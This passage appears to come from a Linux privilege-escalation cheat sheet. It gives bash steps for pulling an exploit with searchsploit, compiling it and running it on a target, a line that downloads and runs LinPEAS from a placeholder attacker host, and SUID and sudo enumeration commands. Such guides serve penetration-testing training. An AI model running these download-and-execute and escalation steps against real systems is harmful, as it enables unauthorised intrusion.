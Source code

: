 ```bash
# Download exploit
searchsploit -m exploits/linux/local/xxxxx.c

# Read it!
cat xxxxx.c

# Compile on target (if gcc available)
gcc xxxxx.c -o exploit

# Or compile on Kali and transfer
gcc xxxxx.c -o exploit
# Transfer to target

# Execute
./exploit
```

---

## Automated Privilege Escalation Enumeration

### LinPEAS (Most Comprehensive)

```bash
# Download and run
wget http://ATTACKER_IP/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh | tee linpeas_output.txt

# Review output focusing on RED/YELLOW findings
less -R linpeas_output.txt
```

**LinPEAS checks:**
- sudo permissions
- SUID binaries
- Capabilities
- Writable files
- Cron jobs
- Kernel version
- And 100+ other checks

**Use this to identify privesc vectors, then manually exploit**

---

## Privilege Escalation Workflow

### Systematic Approach 

**Quick Manual Checks**
```bash
sudo -l
id
find / -perm -4000 -type f 2>/dev/null | head -20
```
